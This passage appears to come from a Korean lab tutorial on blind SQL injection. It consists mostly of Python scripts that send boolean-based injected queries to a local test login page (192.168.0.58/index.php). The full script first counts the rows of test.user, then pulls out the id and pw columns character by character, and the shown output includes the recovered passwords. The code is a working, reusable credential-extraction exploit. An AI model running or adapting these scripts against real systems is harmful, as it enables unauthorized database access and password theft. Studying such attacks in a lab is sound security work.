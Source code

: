 ```py
    for j in range(DATA_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT id FROM test.user LIMIT {i},1),{j+1},1))={ord(s)}#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            REQUEST = requests.get(url=URL)
            if REQUEST.text == 'Welcome test': DATA += s
    print(f'{DATA}')
```

결과는 다음과 같다.

	admin
    test

다음의 Full Code로 모든 pw 컬럼의 데이터를 확인해보자.

```py
import requests
import string

TARGET          = 'http://192.168.0.58/index.php'
RESULT_LENGTH   = 0

for i in range(100):
    QUERY       = requests.utils.quote(f'test\' AND (SELECT COUNT(id) FROM test.user)={i}#')
    URL         = TARGET + f'?userid={QUERY}&password=123'
    REQUEST     = requests.get(url=URL)
    if REQUEST.text == 'Welcome test':
        RESULT_LENGTH = i
        break
print(f'Number of data : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    DATA_LENGTH    = 0
    DATA           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'test\' AND LENGTH((SELECT pw FROM test.user LIMIT {i},1))={j}#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        REQUEST     = requests.get(url=URL)
        if REQUEST.text == 'Welcome test': DATA_LENGTH = j
    for j in range(DATA_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'test\' AND ASCII(SUBSTR((SELECT pw FROM test.user LIMIT {i},1),{j+1},1))={ord(s)}#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            REQUEST = requests.get(url=URL)
            if REQUEST.text == 'Welcome test': DATA += s
    print(f'{DATA}')
```

결과는 다음과 같다.

	helloworld
    test